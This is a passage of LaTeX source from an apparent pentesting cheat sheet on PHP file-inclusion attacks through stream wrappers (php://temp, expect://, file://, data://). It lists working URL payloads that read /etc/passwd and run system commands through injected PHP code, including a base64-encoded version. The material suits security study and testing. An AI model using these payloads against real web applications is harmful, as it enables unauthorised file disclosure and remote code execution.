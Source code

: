 \documentclass[12pt]{article}
\begin{document}
\begin{criticalbox}
php://input requires \texttt{allow\_url\_include = On} and \texttt{allow\_url\_fopen = On}.
\end{criticalbox}

\subsubsection{php://temp - Temporary Storage}

\begin{lstlisting}
/index.php?page=php://temp
\end{lstlisting}

May contain uploaded file data or temporary content.

\subsubsection{php://memory - Memory Stream}

Similar to php://temp but always uses memory.

\subsubsection{expect:// - Command Execution}

\begin{lstlisting}
/index.php?page=expect://id
/index.php?page=expect://ls -la
\end{lstlisting}

\begin{warningbox}
The expect wrapper is rarely enabled. It requires the expect extension.
\end{warningbox}

\subsubsection{file:// - Absolute Path Reading}

\begin{lstlisting}
/index.php?page=file:///etc/passwd
/index.php?page=file://C:/windows/win.ini
\end{lstlisting}

\subsection{Data Wrapper for Code Execution}

\begin{lstlisting}
# Execute PHP code directly
/index.php?page=data://text/plain,<?php system('id'); ?>

# Base64 encoded version
/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
\end{lstlisting}
\end{document}
